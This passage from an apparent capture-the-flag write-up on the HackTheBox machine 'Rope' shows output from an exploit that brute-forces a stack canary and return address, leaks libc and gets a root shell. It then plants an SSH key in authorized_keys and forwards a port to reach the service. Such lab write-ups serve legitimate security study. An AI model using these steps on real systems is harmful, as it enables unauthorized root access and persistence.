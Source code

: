 

#### Test Locally

First I tested locally, and it worked:



    root@kali# python3 rope_root-remote3.py local
    [*] Starting brute force
    [+] Brute forcing Canary: Finished in 147.60 seconds
    [+] Canary:             0x2dc703f3464e4300
    [+] Brute forcing RBP: Finished in 188.66 seconds
    [+] RBP:                0x00007ffec5a79900
    [+] Brute forcing Return Address: Finished in 85.28 seconds
    [+] Return Address:     0x0000557c214f5562
    [*] Sending exploit to leak libc write address
    [+] Opening connection to 127.0.0.1 on port 1337: Done
    [+] libc write address: 0x00007fc4383a87d0
    [*] Closed connection to 127.0.0.1 port 1337
    [+] Calculated addresses:
        libc_base:          0x00007fc4382bd000
        dup2:               0x00007fc4383a8f00
        execve:             0x00007fc438384d60
        binsh:              0x00007fc438440cee
    [*] Sending shell exploit
    [+] Opening connection to 127.0.0.1 on port 1337: Done
    [*] Switching to interactive mode
    $ id
    uid=0(root) gid=0(root) groups=0(root)



#### Shell Remotely

In order to talk to the service running on Rope, I need access from
localhost. I could upload my script and try to run it there, but it'll
be easier to use my current access to enable ssh access since ssh is
running. I'll write my public key into `authorized_keys`:



    john@rope:/home/john$ mkdir .ssh
    john@rope:/home/john$ cd .ssh
    john@rope:/home/john/.ssh$ echo 'ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABAQC0SwpwZ7rgMtCZYzkDtFJvQZO20N+8DmYxOix+PgL6VQW/9wZC3xnKK1zeAelMYtv/O38GXE2ghUH7z6ayVmTMkjGqt18mhsEpCt0BbonGRC0IHoBsV5QBVNin+x1soVdECT1Tr45bNnTnkZXIgSyDumc+2Ix6A1wiiC5RbI3SrxJ7nL0lRlhjdoAH6KCb4dwhX+Jos0VudHRreE01+0YE0Qb7Sd0eA5Cq7UtjgiW6VyXcmWH7aQdVZlUanrs5wdwWYeVCxY/XfFCCDmHZw+8W5INudM2t7on7bl/rYnhAExOr14/1s7LfYAfV8B6VNPPX+IOzOcT4aYQC3rRDiG5P root@kali' > authorized_keys



Now ssh in with `-L 1337:localhost:1337` will allow me to hit 1337 on my
local box and it will forward to 1337 on Rope.



    root@kali# ssh -i ~/id_rsa_generated john@10.10.10.148 -L 1337:localhost:1337
    Welcome to Ubuntu 18.04.2 LTS (GNU/Linux 4.15.0-52-generic x86_64)
